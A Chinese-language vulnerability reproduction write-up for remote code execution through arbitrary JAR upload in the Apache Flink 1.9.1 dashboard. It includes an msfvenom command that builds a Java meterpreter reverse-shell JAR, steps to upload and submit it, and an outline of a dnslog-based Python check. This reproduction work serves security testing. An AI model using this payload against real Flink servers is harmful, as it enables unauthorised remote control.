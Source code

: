 Apache Flink 任意 Jar 包上传致 RCE 漏洞复现 

#### 0x00 简介
Flink核心是一个流式的数据流执行引擎，其针对数据流的分布式计算提供了数据分布、数据通信以及容错机制等功能。基于流执行引擎，Flink提供了诸多更高抽象层的API以便用户编写分布式任务。

#### 0x01 漏洞概述

攻击者可直接在Apache Flink Dashboard页面中上传任意jar包，从而达到远程代码执行的目的。

####  0x02 影响版本

至目前最新版本Apache Flink 1.9.1

#### 0x03 环境搭建

测试环境：Flink 1.9.1 java8+

Apache Flink 1.9.1安装包下载

`https://www.apache.org/dyn/closer.lua/flink/flink-1.9.1/flink-1.9.1-bin-scala_2.11.tgz`

解压后进入bin文件夹，运行./start-cluster.sh

验证Flink启动之后，默认web 端口8081是否正常

访问http://ip:8081/可看到环境页面

![](assets/dashboard.png)

#### 0x04 漏洞利用

1、上传msf生成的jar包

生成rce.jar文件

`msfvenom -p java/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=8989 -f jar > rce.jar`

![](assets/rce.png)

在flink中上传rce.jar文件

![](assets/upload.png)


msf启用监听

![](assets/msf.png)

然后在flink中选中我们刚刚上传的jar文件，点击submit,msf就会收到一个反向连接，得到一个session

![](assets/submit.png)


#### python poc

写python poc也很简单了，直接利用dnslog的方式检测目标主机是否反向dns解析我们的dnslog平台就行了，也就是我们利用msf生成一个LHOST为dnslog平台域名的jar,然后利用requests将这个jar传上去，然后再用requests模拟submit操作，最后验证dnslog平台是否有记录就行了